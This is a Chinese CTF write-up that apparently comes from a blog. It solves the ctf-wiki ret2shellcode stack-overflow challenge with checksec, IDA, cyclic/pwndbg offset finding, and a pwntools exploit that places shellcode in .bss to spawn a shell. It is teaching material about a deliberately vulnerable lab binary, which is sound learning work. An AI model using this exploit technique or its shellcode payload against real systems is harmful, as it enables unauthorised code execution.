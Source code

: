 ```yaml
---
layout: post
title: CTF-PWN实例0（ret2shellcode）
categories: 
 - CTF
 - PWN
 - 二进制
permalink: /pwn/0
nocomments: true  # Disable the comment box. This is EasyBook feature
typora-root-url: ..\_site
---
```


# CTF-PWN实例0（ret2shellcode）

## 题目地址：

https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/ret2shellcode

## 程序保护：

```shell
$ checksec ret2shellcode
```

```shell
 	Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

未开启任何保护。但是第一次写实例，简单介绍一下这几个保护。

首先Stack保护措施，如果开启了，会在栈中返回地址前放一个随机值，如果被覆盖程序就会报错退出。

NX保护是no execution，如果 开启了就不能让IP寄存器指向堆和栈。等同于不能执行推或栈中的指令。

## 解题：

### 一、IDA分析程序溢出点

IDA分析main函数：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets((char *)&v4);
  strncpy(buf2, (const char *)&v4, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

发现使用了gets()函数，gets()函数会不断地向v4中写入，只有遇到\00才会停止，这样在栈中就会溢出覆盖掉返回地址。

### 二、cyclic和pwndbg判断偏移量

```shell
$ cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
$ gdb ret2shellcode
........
pwndbg> r
Starting program: /home/dtuncle/ctf-challenges/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode 
No system for you this time !!!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
bye bye ~
Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────[ REGISTERS ]────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0xffffffff
 EDX  0xf7fb6870 (_IO_stdfile_1_lock) ◂— 0
 EDI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 ESI  0xf7fb5000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x1d /* 0x1b1db0 */
 EBP  0x62616163 ('caab')
 ESP  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
 EIP  0x62616164 ('daab')
─────────────────────────────────────[ DISASM ]──────────────────────────────────────
Invalid address 0x62616164

──────────────────────────────────────[ STACK ]──────────────────────────────────────
00:0000│ esp  0xffffcfa0 ◂— 'eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
01:0004│      0xffffcfa4 ◂— 'faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
02:0008│      0xffffcfa8 ◂— 'gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
03:000c│      0xffffcfac ◂— 'haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
04:0010│      0xffffcfb0 ◂— 'iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
05:0014│      0xffffcfb4 ◂— 'jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
06:0018│      0xffffcfb8 ◂— 'kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
07:001c│      0xffffcfbc ◂— 'laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
────────────────────────────────────[ BACKTRACE ]────────────────────────────────────
 ► f 0 62616164
   f 1 62616165
   f 2 62616166
   f 3 62616167
   f 4 62616168
   f 5 62616169
   f 6 6261616a
   f 7 6261616b
   f 8 6261616c
   f 9 6261616d
   f 10 6261616e
Program received signal SIGSEGV (fault address 0x62616164)
pwndbg> quit
$ cyclic -l 0x62616164
112
```

这样就可以直接定位到偏移量为112.

### 三、编写EXP

思路：

首先这里能直接覆盖返回地址，然后就让返回地址被覆盖成shellcode地址。重点在于shellcode地址，这里搜索函数名没有system()所以不能直接利用程序内部的函数。这里就需要 写入shellcode，前面保护机制中NX是关闭的，所以我们可以选择将shellcode写入.bss段。然后让返回地址指向shellcode。

先用ida确认.bss段的地址（.bss一般程序会分陪比较大空间不用担心超出空间）

v4在.bss段的地址

```c
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B\u8o
.bss:0804A080 _bss            ends
```

exp代码：

```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *

p = process('./ret2shellcode')

p.sendline(asm(shellcraft.sh()).ljust(112,'a')+p32(0x0804a080)) #这里是将shellcode和a填充到栈中，总长度为112

p.interactive()
```

## 总结

PWN两大难点：确定溢出点，如何利用。这里主要注意linxu下的一些保护措施，这里只介绍了stack和nx。其他的遇到后会介绍，并且对应保护措施开启后如何利用写exp。然后就是简单的用cyclic确认偏移量。